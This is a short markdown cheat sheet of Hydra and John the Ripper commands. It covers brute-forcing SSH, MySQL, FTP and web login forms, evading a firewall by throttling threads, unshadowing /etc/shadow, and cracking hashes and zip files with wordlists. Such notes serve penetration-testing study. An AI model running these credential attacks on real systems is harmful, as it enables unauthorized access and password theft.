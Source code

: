 # Hydra

Syntax
hydra username password options service://server:port

Example:
hydra -l user -P passlist.txt ftp://192.168.0.1:2221

Options
-l - single username
-L - username List
-p - single password
-P - password List
-V - Show output on screen
-t - tasks(threads)
-o - output file
-m - module options
-f - stop when password is found(otherwise it will carry on)


Password options
Use -e
s --> use username as password
n --> try an empty password
r --> reverse the username and use as password

## Hydra For SSH service

* with username and password list
``` hydra ssh://192.168.1.1:2222 -L ./users.txt -P ./password.txt -V -f```

* with one username and password list
``` hydra ssh://192.168.1.1:2222 -l admin -P ./password.txt -V -f```

* with reducing thread to bypass firewall
``` hydra ssh://192.168.1.1:2222 -l admin -P ./password.txt -V -f -t 2```

## Hydra For MYSQL service

* with username and password list and save in file
``` hydra mysql://127.0.0.1 -l root -P ./password.txt -V -f -o pass_cracked.txt``` 

## Hydra For FTP service

* with username and null password
```hydra ftp://192.168.1.1 -l anonymous -e n ```

## Login page 

```hydra 192.168.0.1 http-post-form "/:userName=^USER^&mypass=^PASS^&loginBtn=Submit:The username or password is incorrect, please input again" -L ./users.txt -P ./passwords.txt -V -f ```


userName : It is name of username form field
mypass   : It is name of password form field
loginBtn : Btn Field name
Message after semicolon is message which indicates login failed





# John the ripper

* When Hash and format is given
```john hash.txt --format=RAW-MD5```

* For single mode with following hash type
username:hash::::
```john --single hash.txt --format=RAW-MD5 ```

* using wordlist 
``` john --wordlist-word.txt a2.txt --format=Raw-SHA1```

* using rules like ShiftToogle (change upper to lowercase and viceversa)

``` john --rules=ShiftToggle xyz.txt --wordlist=word.txt```


* For cracking the shadow file
	- First unshadow the file(combine shadow file and passwd file)
		```sudo unshadow /etc/passwd /etc/shadow```

* For example we copied the hash retrived after unshadow of root 
and saved in document in xyz.txt

``` john xyz.txt --wordlist=rockyou.txt```
```john --show xyz.txt```

* Cracking the zip file
```zip2john xyz.zip > ziphash.txt```
```john ziphash.txt --wordlist=/opt/rockyou.txt```






